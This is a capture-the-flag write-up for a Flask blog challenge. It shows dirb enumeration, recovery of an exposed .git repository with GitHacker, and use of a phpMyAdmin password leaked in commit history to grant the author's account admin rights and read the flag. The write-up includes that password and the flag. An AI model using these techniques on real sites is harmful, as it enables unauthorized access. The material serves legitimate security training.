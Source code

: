 # Blog site (4)

Hi, packet inspector,

a simple blog webpage was created where all employees can write their suggestions for improvements. It is one part of the optimization plan designed by our allmighty AI.

Examine the web [http://blog.mysterious-delivery.tcc:20000/](http://blog.mysterious-delivery.tcc:20000/) and find any interesting information.

May the Packet be with you!

## Hints

- Use VPN to get access to the web.
- Any employee of Mysterious Delivery, Ltd. can contribute to the blog – do not trust any information (notably flags) appearing in posts.

## Solution

### Web enumeration

After a quick lookup, the page is [flaskr (flask example blog)](https://github.com/pallets/flask/tree/main/examples/tutorial/flaskr).

Some people have tried [jinja template injection](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/) but it was unsuccessful. Which is logical, the flag will probably not be publicly visible to all solvers.

![jinja template injection attempt](jinja-template-injection-attempt.png)

The [/settings](http://blog.mysterious-delivery.tcc:20000/settings) page is forbidden. I'm guessing the flag will be here.

![settings page forbidden](settings-page-forbidden.png)

Let's scan this site with dirb, maybe we'll find something special ;).

```
> dirb http://blog.mysterious-delivery.tcc:20000/ /usr/share/wordlists/dirb/common.txt

+ http://blog.mysterious-delivery.tcc:20000/.git/HEAD (CODE:200|SIZE:23)
+ http://blog.mysterious-delivery.tcc:20000/create (CODE:302|SIZE:209)
+ http://blog.mysterious-delivery.tcc:20000/hello (CODE:200|SIZE:13)
==> DIRECTORY: http://blog.mysterious-delivery.tcc:20000/phpmyadmin/
+ http://blog.mysterious-delivery.tcc:20000/settings (CODE:302|SIZE:209)
```

We found `.git` and `phpmyadmin` directories. We need login credentials for `phpmyadmin`, which we don't have yet. But what about `.git`? That looks pretty sus.

### Investigating git directory

/.git/HEAD

```
ref: refs/heads/master
```

/.git/config

```
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[user]
	name = Jozef Dev
	email = jozef.dev@attendance.ttc
```

There is also index file, let's use [GitHacker](https://github.com/WangYihang/GitHacker) tool to restore the entire git repository.

```
> githacker --url http://blog.mysterious-delivery.tcc:20000/.git/ --output-folder result

...
INFO Downloading basic files...
INFO [73 bytes] 200 .git/description
INFO [23 bytes] 200 .git/HEAD
INFO [18 bytes] 200 .git/COMMIT_EDITMSG
INFO [2619 bytes] 200 .git/index
INFO [5523 bytes] 200 .git/logs/HEAD
INFO [240 bytes] 200 .git/info/exclude
INFO [41 bytes] 200 .git/ORIG_HEAD
INFO Downloading head files...
INFO [192 bytes] 200 .git/objects/ad/8a16703a1102d9550525ebfcfd97d1f4349664
INFO [246 bytes] 200 .git/objects/d9/5803cb9777c66154b086a7f8c3232b85dc5749
INFO [180 bytes] 200 .git/objects/f4/3eb707fe11f5b58757e683e27687f63fc03556
INFO [199 bytes] 200 .git/objects/30/919e78222d434003949ed3803b0163d34a0bb0
INFO [187 bytes] 200 .git/objects/5a/5646d360662d8b596e03034a5d686cb4fc70da
INFO [123 bytes] 200 .git/objects/a7/96306a74457bf81f52f7b8d45a20997b68d92d
INFO [186 bytes] 200 .git/objects/46/15dee75de7f414211d935419f4f71cc11f0b30
INFO [143 bytes] 200 .git/objects/b0/6b989ab11e9a9b1d9075eb35988f995e16d50d
INFO [199 bytes] 200 .git/objects/3a/a17a01a4494a031e666f6de8b2dce2fff9d928
INFO [190 bytes] 200 .git/objects/7e/4a77ab036cbc04fe7d800d1d07b52be6bb0942
INFO [168 bytes] 200 .git/objects/f5/407ad8e35263b631e5fc50552b27c6cab63a07
INFO [186 bytes] 200 .git/objects/76/5c9b10d132371585efddd968a5296ed4a8e6df
INFO Downloading blob files...
INFO [800 bytes] 200 .git/objects/9d/227a0cc43c3268d15722b763bd94ad298645a1
INFO [112 bytes] 200 .git/objects/85/a35845adb3903826fa5d8a6409796dc576c327
INFO [47 bytes] 200 .git/objects/73/c76f23a8df2b7418acfc7a1d7c0c2b6c4fad31
INFO [74 bytes] 200 .git/objects/5b/e56f120dfe89249160f547ca762bc264bd9ba1
INFO [102 bytes] 200 .git/objects/97/d55d517eb21005d9abda1bf327ead3cab44756
INFO [670 bytes] 200 .git/objects/41/f3f6ba716aa3630f7d68605bfc0685d5d7986e
INFO [859 bytes] 200 .git/objects/92/84bc87ebd9091d749802e547033687d8671be4
INFO [62 bytes] 200 .git/objects/43/8ffb52cde6714ce8556840def949f54a61295b
INFO [1308 bytes] 200 .git/objects/c8/bdc58996bcb898424288739b4019b4bbd70b63
INFO [1264 bytes] 200 .git/objects/a3/bd32f45aa45dbce78387c8ee1a01863af21306
INFO [713 bytes] 200 .git/objects/e6/4c86f1bf98d4fcedbc914f8a0081d662ff76b2
INFO [242 bytes] 200 .git/objects/bb/70c6272fd428ab652aeec640365de08917c86f
...
```

Let's search for code changes using Git Kraken.

![git kraken first image](git-kraken-1.png)

Ok, we have confirmed that there will be a flag on [/settings](http://blog.mysterious-delivery.tcc:20000/settings).

![git kraken flag at settings page](git-kraken-2.png)

We can also notice that we need our user account to have an admin role.

![git kraken flag at settings page role](git-kraken-3.png)

`56843437e5c747a2c9c08e4b79f109c3` looks like password for phpmyadmin, but we can't log in with username `ctfb5`.

![git kraken phpmyadmin password](git-kraken-4.png)

In next commit we can see, that the username was changed to `attendance`.

![git kraken phpmyadmin username](git-kraken-5.png)

Well, let's try username `attendance` and password `56843437e5c747a2c9c08e4b79f109c3` to log in.

It works! Now I'll just set admin role on my user account.

![phpmyadmin](phpmyadmin.gif)

We should have rights to access [/settings](http://blog.mysterious-delivery.tcc:20000/settings).

![settings page](getting-flag.gif)

And we have!

`FLAG{gDfv-5zlU-spVN-D4Qb}`
